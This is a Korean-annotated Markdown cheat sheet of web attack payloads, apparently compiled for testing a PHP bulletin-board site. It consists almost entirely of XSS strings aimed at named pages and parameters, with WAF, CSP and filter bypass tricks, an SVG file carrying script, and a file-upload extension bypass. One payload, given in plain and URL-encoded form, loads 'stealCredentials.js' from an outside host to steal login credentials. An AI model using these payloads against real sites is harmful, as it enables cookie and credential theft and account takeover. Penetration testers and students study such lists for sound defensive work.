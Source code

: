 # Payloads

## XSS

### Attack surfaces

- 게시글 검색 `search.php`의 `q` 파라미터

- 게시판 선택 시 `board.php`의 `page` 파라미터

- 글 생성 및 댓글 생성 `post.php` | `stored xss` 

### Payloads

<!-- 검색하는 곳; 숫자 및 문자열 삽입-->
`/search.php?q=<script>alert%287%29<%2Fscript>`

`/search.php?q=<script>alert%28%27test%27%29<%2Fscript>`

`<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">`

`/search.php?q=<img+src%3Dx+onerror%3D"%26%230000106%26%230000097%26%230000118%26%230000097%26%230000115%26%230000099%26%230000114%26%230000105%26%230000112%26%230000116%26%230000058%26%230000097%26%230000108%26%230000101%26%230000114%26%230000116%26%230000040%26%230000039%26%230000088%26%230000083%26%230000083%26%230000039%26%230000041">`

<!-- Unicode encoding -->
`/search.php?q=<script>%5Cu0061lert%281%29<%2Fscript>`

`/search.php?q=<object+data%3D"data%3Atext%2Fhtml%2C<script>alert%281%29<%2Fscript>">`

<!-- 글 생성 및 출력되는 곳-->
<!-- 댓글 생성 및 출력되는 곳-->
`GET /post.php`

`/board.php?page=2<ScRiPt>alert(%27page%27)</sCripT>`

`/index.php?page=2xssz"><img/src=x%20onerror=confirm(999)><!--`

`/post.php?id=41"><img/src=x%20onerror=confirm(999)><!--&board=3`

`/board.php?page=2</TITLE><SCRIPT>alert("XSS");</SCRIPT>`

<!-- 로그인 페이지; username 파라미터; value 속성 내 -->
`/login.php?username=test"><img%20src=x%20onerror=alert(1)>`

`/login.php?username="><base%20href%3d"http%3a%2f%2fgoogle%2ecom%2f">`

<!-- ?username="><script%20src="http://192.168.0.10:7777/stealCredentials.js"></script><br -->
<!-- 로그인 정보 탈취; 페이로드 URL 인코딩 -->
`/login.php?username=%22%3e%3c%73%63%72%69%70%74%25%32%30%73%72%63%3d%22%68%74%74%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%30%2e%31%30%3a%37%37%37%37%2f%73%74%65%61%6c%43%72%65%64%65%6e%74%69%61%6c%73%2e%6a%73%22%3e%3c%2f%73%63%72%69%70%74%3e`

<!-- Custom tag 이용 -->
`/search.php?q=<xss id=x onfocus=alert(document.cookie) tabindex=1>#x`

<!-- DOM XSS; board.php 확인 -->
`/board.php?page=2<script>alert(%27xss%27)</script>`

<!-- WAF 우회; () 사용하지 못하고, 16진수 인코딩 기법 사용 및 객체 리터럴로 onerror 이벤트에 eval 함수 적용 후 throw를 통해 트리거 -->
`/board.php?page=2<script>{onerror=eval}throw%27=alert\x281337\x29%27</script>`

<!-- CSP 우회 -->
`?token=;script-src-elem 'unsafe-inline'&search=<script>alert('XSS')</script>`

<!-- 만약 a 태그의 href 속성이 막혔을 경우 -->
`<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a></svg>`

`<svg><animateTransform onbegin=alert(1)>`

<!-- 만약 태그 내 속성이 ">를 통해서 안 닫힐경우, 속성을 이어서 적는 방식 사용 -->
`" autofocus onfocus=alert(1) x="`

`/login.php?username="%20autofocus%20onfocus=alert(1)%20x="`

<!-- <a href="$_GET['homepage']"></a> 부분이 존재할 때, 속성에 직접 pseudo-protocol 삽입 -->
`/post.php?id=51&board=3&homepage=javascript:alert(1)`

`?homepage=data:text/html,<script>alert(1)</script>`

<!-- <script>const searchTerms = '<?php echo $_GET['q'];?>'</script> 와 같은 형식으로 검색어를 받을 때-->
`/search.php?q=%27;alert(document.domain)//`

<!-- <?php $output = str_replace("'", "\\'", $output); ?> 와 같이 작은 따옴표를 이스케이프할 때 -->
`/search.php?q=\%27;alert(document.domain)//`

<!-- 글 수정하는 곳 -->
`/edit_post.php?id=51"%20autofocus%20onfocus="alert(1)<!--`

<!-- 문자열 치환 사용 -->
`/search.php?q=<img%20src="x"%20onerronerroror="alert(1)">`

<!-- const isSafeInput = x => !/<script|<img|<input|<.*on/is.test(x); 필터링 우회-->
`<iframe srcdoc="<&#x69;mg src=1 &#x6f;nerror=alert(parent.document.domain)>">`

<!-- Unicode, ASCII, Computed member access를 이용한 우회 -->
`alert(document["\u0063ook" + "ie"]);  // alert(document.cookie)`
`window['al\x65rt'](document["\u0063ook" + "ie"]);  // alert(document.cookie)`

<!-- String.fromCharCode를 이용한 우회 -->
`<script>window[String.fromCharCode(97, 108, 101, 114, 116)](1)</script>`

<!-- 36진수 변환을 통한 우회 -->
`<script>window[17795081..toString(36)](1)</script>`

<!-- 백틱(`)을 통한 우회 -->
`<script>alert`1`</script>`

<!-- alert, document, cookie 문자 필터링 우회 -->
`<script>this['al'+'ert'](this['do'+'cument']['coo'+'kie'])</script>`

<!-- location.hash를 통한 우회; 길이 검증이 존재할 때 -->
`<img src onerror="eval(location.hash.slice(1))">#alert(document.cookie);`

<!-- page 파라미터; <a href="$_GET['page']> -->
`" onfocus=alert(1) autofocus "`

<!-- <script>태그를 사용하는 곳에 </script> 태그로 닫고 HTML 태그와 이벤트핸들러를 통해 스크립트 실행 유도-->
``</script><img src=x onerror=alert(1)><!--`

---
#### 이벤트핸들러

<!-- onload 이벤트 -->
`<body onload="alert('XSS')">`

`<iframe src="about:blank" onload="alert('XSS')" width=0 height=0></iframe>`

<!-- onmousemove 이벤트 -->
`<body onmousemove="alert('XSS')">`

`<audio src="x" onerror="alert('XSS')"></audio>`

```
<script>
  setTimeout(function() { alert('XSS'); }, 1000);
</script>
```

`<iframe src="javascript:alert('XSS')"></iframe>`

`<object data="x" onerror="alert('XSS')"></object>`



<!-- svg file -->
```svg
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
   <script type="text/javascript">
      alert('xss');
   </script>
</svg>
```

### WAF Bypass

- 적용 가능한 태그 및 이벤트 핸들러 무차별 대입 공격으로 확인

- 모든 HTML 태그가 막혀있을 경우, Custom tag 사용

- Unicode 인코딩 기법 사용

- 프로필 이미지에 svg 업로드가 가능할 시 svg 파일 내에 페이로드 삽입

### Cheat Sheet
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet



## SQL Injection

## File upload

### 우회 확장자

`pHp` `phtml`